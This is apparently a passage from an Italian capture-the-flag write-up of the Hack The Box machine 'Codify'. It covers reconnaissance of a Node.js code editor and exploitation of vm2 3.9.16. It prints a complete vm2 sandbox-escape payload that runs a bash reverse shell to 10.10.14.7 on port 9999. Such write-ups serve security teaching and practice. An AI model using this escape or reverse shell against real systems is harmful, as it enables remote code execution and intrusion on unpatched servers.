 In particolare:
  - In http://codify.htb/about si fa riferimento alla libreria vm2 e in particolare alla versione 3.9.16.
  - In http://codify.htb/editor c'è un tool che permette di testare codice node.js.
  - In http://codify.htb/limitations c'è una lista delle librerie node.js che possono essere importate sul tool di testing.

## Exploitation

Tra tutte le informazioni ottenute quella relativa alla libreria vm2 risulta la più interessante, in quanto, dopo varie ricerche, mi imbatto in questa vulnerabilità: https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244.

Quindi, modifico il codice in questa maniera:

```text
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync("bash -c 'bash -i >& /dev/tcp/10.10.14.7/9999 0>&1'");
}
`

console.log(vm.run(code));
```

Avvio un listener sulla porta 9999 ed eseguo il codice sull'editor.

<p align="center">
  <img src="/Immagini/Linux-Box/Codify/codify-3.png" />
</p>
